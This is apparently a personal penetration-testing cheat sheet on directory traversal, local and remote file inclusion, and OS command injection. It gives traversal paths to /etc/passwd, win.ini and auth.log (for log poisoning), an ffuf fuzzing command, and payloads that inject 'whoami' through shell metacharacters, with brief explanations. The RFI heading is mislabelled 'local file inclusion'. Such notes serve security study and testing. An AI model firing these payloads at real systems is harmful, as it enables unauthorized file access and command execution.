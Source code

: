 # Directory Traversal
**Quick Reference**
```bash
../../../../etc/passwd # Linux
..\\..\\..\\..\\windows\\win.ini # Windows
../../../../var/log/auth.log # Linux log file for poisoning

# LFI RFI fuzzing
ffuf -u https://example.com/cms/login.php?language=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
# /usr/share/seclists/Fuzzing/LFI/LFI-Windows-adeadfed.txt
# -ac : Autocalibration: will attempt to automatically filter out
# -fs 1234 : run the command once,  note the size of the invalid responses error paages

# OS Command injection 
# (` ; &  | && ||) input field or get/put, adding /injecting  metacharacters
127.0.0.1 `whoami`
127.0.0.1; whoami
127.0.0.1 || whoami
127.0.0.1 | whoami
```
---
### Dir traversal
Goal: To read or access files outside the web application's root directory.  
How: manipulate user-supplied input (like a filename in a URL parameter) by injecting the sequence ../ (or ..\ on Windows) to move up to parent directories in the file system.

### LFI - local file inclusion
Goal: To trick the web application into executing code from a file.  
How: uses DIR traversal techniques to reach local, non-web-root file  

### RFI - local file inclusion
Goal: Execute a file hosted on a remote server (controlled by the attacker).  
How: attacker provides a full URL pointing to a malicious script they control, and the vulnerable application fetches and executes it.  

### OS Command Injection
Goal: To execute commands (like ls, id, rm, or net user) directly on the server's operating system (OS).  
How: injects shell metacharacters (e.g., ;, &, |, &&) into an input field that the application then passes to a system function for execution. This causes the OS to see and run multiple distinct commands.